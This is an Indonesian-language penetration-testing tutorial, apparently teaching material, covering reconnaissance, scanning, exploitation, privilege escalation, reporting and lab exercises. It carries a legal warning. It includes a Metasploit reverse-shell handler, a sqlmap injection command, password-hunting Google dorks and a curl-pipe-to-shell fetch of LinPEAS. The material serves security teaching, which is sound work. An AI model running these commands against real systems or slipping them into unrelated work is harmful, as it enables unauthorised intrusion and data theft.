

# Penetration Testing Methodology

Penetration testing adalah simulasi serangan yang diizinkan untuk menemukan kerentanan sebelum attacker nyata menemukannya.

> ⚠️ **PENTING:** Semua teknik ini hanya boleh digunakan pada sistem yang kamu miliki atau sudah mendapat **izin tertulis** dari pemilik sistem. Hacking tanpa izin adalah tindak pidana di Indonesia (UU ITE).

## Fase Penetration Testing



## 1. Reconnaissance (OSINT)

```bash
# Passive recon — tanpa menyentuh target
whois target.com
dig target.com ANY
theHarvester -d target.com -b google,linkedin

# Shodan — cari device yang terekspos
shodan search "hostname:target.com"
shodan host 1.2.3.4

# Google dorks
site:target.com filetype:pdf
site:target.com inurl:admin
"target.com" "password" filetype:txt
```

## 2. Scanning

```bash
# Nmap — port scanning
nmap -sV -sC -O target.com          # Service version + scripts + OS
nmap -p- --min-rate 5000 target.com  # Semua port, cepat
nmap -sU -p 53,161,500 target.com   # UDP scan

# Nikto — web vulnerability scanner
nikto -h http://target.com

# Gobuster — directory brute force
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt
```

## 3. Exploitation

```bash
# Metasploit Framework
msfconsole

# Cari exploit
search type:exploit name:apache
use exploit/multi/handler

# Set options
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 10.0.0.1
set LPORT 4444
run

# Manual exploitation — SQL injection
sqlmap -u "http://target.com/login" --data="user=admin&pass=test" --dbs
```

## 4. Post-Exploitation

```bash
# Privilege escalation
sudo -l                    # Cek sudo permissions
find / -perm -4000 2>/dev/null  # SUID binaries
cat /etc/crontab           # Cron jobs

# LinPEAS — automated privesc checker
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## 5. Reporting

Laporan pentest yang baik mencakup:

```markdown
# Penetration Test Report

## Executive Summary
Ringkasan untuk manajemen — risiko bisnis, bukan teknis.

## Scope
- Target: lab.smauiiyk.sch.id
- Periode: 2026-04-01 s/d 2026-04-07
- Tipe: Black box

## Findings

### CRITICAL: SQL Injection di /api/login
**CVSS Score:** 9.8
**Deskripsi:** Parameter `email` rentan terhadap SQL injection...
**Bukti:** [screenshot]
**Dampak:** Attacker bisa mengakses semua data user
**Rekomendasi:** Gunakan parameterized query

### HIGH: Weak Password Policy
...

## Remediation Roadmap
| Finding | Prioritas | Estimasi Fix |
|---------|-----------|--------------|
| SQL Injection | Critical | 1 hari |
```

## Lab Setup

```bash
# Kali Linux di VirtualBox/VMware
# Target: Metasploitable2, DVWA, VulnHub machines

# TryHackMe — guided pentest labs
# HackTheBox — realistic machines
```

## Latihan

1. Setup lab: Kali Linux + Metasploitable2 di VirtualBox (isolated network)
2. Scan Metasploitable2 dengan Nmap — identifikasi semua service
3. Exploit satu kerentanan (misal: vsftpd backdoor)
4. Tulis laporan pentest sederhana
